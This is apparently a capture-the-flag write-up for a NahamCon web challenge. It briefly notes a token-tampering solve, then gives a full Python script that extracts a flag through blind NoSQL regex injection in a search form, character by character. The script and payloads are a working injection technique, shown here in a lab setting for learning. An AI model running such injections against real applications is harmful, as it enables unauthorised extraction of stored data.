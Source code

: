 - Update the token in the local storage refresh to get a pdf which has the flag
- `flag{b1bd4795215a7b81699487cc7e32d936}`


#  No Sequel

Desc - It always struck me as odd that none of these movies ever got sequels! Absolute cinema.

Interaction - Search  page had the form with `Search Query`and dropdown collection having `movies` and `flags` as options 

Soltion:
- Example query with `title: Inception {"year": {"$gt": 1990}} title: {$regex: "The"}`
gave away that we have to search for regex 

- Searching for `flag: { $regex: "^flag{" }` gave patterned match 
- Run this Scipt to get the whole flag 

```
import requests

URL = "http://challenge.nahamcon.com:30846/search"
PREFIX = "flag{"
CHARSET = "0123456789abcdef}"
MAX_LEN = 40  # Adjust as needed

def extract_flag():
    flag = PREFIX
    session = requests.Session()

    while not flag.endswith('}'):
        for c in CHARSET:
            guess = flag + c
            payload = {
                "query": f'flag: {{$regex: "^{guess}"}}',
                "collection": "flags"
            }
            print(f"[*] Trying: {guess}")
            resp = session.post(URL, data=payload)
            if "Pattern matched" in resp.text:
                flag += c
                print(f"[+] Found next char: {c} -> {flag}")
                break
        else:
            print("[-] No matching character found, stopping.")
            break
        if len(flag) > MAX_LEN:
            print("[-] Flag too long, stopping.")
            break
    print(f"\n[!] Extracted flag: {flag}")

if __name__ == "__main__":
    extract_flag()
```

